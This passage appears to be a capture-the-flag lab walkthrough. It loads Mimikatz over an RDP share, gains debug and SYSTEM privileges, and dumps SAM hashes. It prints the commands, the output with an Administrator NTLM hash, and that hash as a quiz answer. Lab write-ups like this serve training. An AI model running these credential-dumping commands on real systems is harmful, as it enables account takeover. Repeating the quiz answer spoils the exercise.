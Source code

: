 command: \\tsclient\share\mimikatz\x64\mimikatz.exe

## Note: if you used a different share name, you would need to substitute this in. Equally, if the command errors out, you may need to install mimikatz on Kali with 

command: sudo apt install mimikatz

## With Mimikatz loaded, we next need to give ourselves the Debug privilege and elevate our integrity to SYSTEM level. This can be done with the following commands:

command: privilege::debug

command: token::elevate

## If we want we could log Mimikatz output with the log command. 
For example: log c:\windows\temp\mimikatz.log

## This would save the Mimikatz output into the Windows Temp directory. This could also be saved directly into our Kali machine, but be aware that the remote destination must be writeable to the local user running the RDP session.


## We can now dump all of the SAM local password hashes using:

command: lsadump::sam

## Near the top of the results you will see the Administrator's NTLM hash:

## that is in my case 

$ mimikatz # lsadump::sam

Domain : GIT-SERV
SysKey : 0841f6354f4b96d21b99345d07b66571
Local SID : S-1-5-21-3335744492-1614955177-2693036043

SAMKey : f4a3c96f8149df966517ec3554632cf4

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1

##

Q3) What is the Administrator password hash?
A) 37db630168e5f82aafa8461e05c6bbd1
